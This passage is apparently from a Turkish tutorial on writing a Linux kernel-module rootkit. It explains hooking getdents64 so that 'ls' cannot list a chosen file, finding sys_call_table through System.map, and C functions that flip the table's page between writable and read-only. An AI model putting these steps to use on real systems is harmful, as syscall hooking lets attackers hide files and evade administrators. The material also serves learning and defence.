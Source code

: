 **System Call Table**'nin adresini linux içerisinde bulmamız gerek ki gerçek **System Call** ile bizim yazdığımız sahte **Hook** sistem çağrısını değiştirebilelim. 

Ve bu şekilde her **ls** komutu çalıştığında gerçek **getdents64** sistem çağrısı yerine bizim **hook_getdents64** sistem çağrımız çalışıcak.

Yazdığımız hook belirttiğimiz dosyayı gizlemeye yaradığından **ls** komutu çalıştığında hiçbir şekilde görülemeyecek.

**sys_call_table**'nin adresini bulmak için **/boot** içerisinde bulunan **System.map**'e bakmamız gerekiyor :

```
deadbeef@pop-os:~$ sudo grep sys_call_table /boot/System.map-`uname -r`
ffffffff820001c0 R sys_call_table
ffffffff820015a0 R ia32_sys_call_table
```

Ve bu şekilde **sys_call_table**'mizin adresini bulduk **ffffffff820001c0**

Şimdide bu **sys_call_table**'ı yazılabilir yapmamız gerek ki asıl sistem çağrısı ile bizim sahte yani **Hook** sistem çağrısını değiştirebilelim.

Bunuda yapmak için vereceğimiz **sys_call_table** adresinin **table entry**'sini **manual** olarak writable yapmamız gerek.

Bu stackoverflow sorusunun cevaplarında bunu yapmak için bir sürü teknik var bakmak isterseniz : [StackOverflow sys_call_table](https://stackoverflow.com/questions/2103315/linux-kernel-system-call-hooking-example)

Bunuda **lookup_address** fonksiyonu ile **page table**'nin adresini bulup sonrasında içerisinde **sys_call_table**'ye yazma yetkisi vermeliyiz :

```
int set_page_rw(unsigned long addr)
{
  unsigned int level;
  pte_t *pte = lookup_address(addr, &level);
  if (pte->pte &~ _PAGE_RW) pte->pte |= _PAGE_RW;
  return 0;
}
```

Günün sonunda bu yazdığımız **LKM**'yi **kernel**'e yükleyeceğiz fakat sonrasında bunu sildiğimizde herşeyin tekrar aynı haline dönmesi olayıda var birde.

Bunun içinde eğer **sys_call_table**'yi tekrardan **Read-Only** yapmak istiyorsak yine aynı tekniği kullanabiliriz :

```
int set_page_ro(unsigned long addr)
{
  unsigned int level;
  pte_t *pte = lookup_address(addr, &level);
  pte->pte = pte->pte &~_PAGE_RW;
  return 0;
}
```
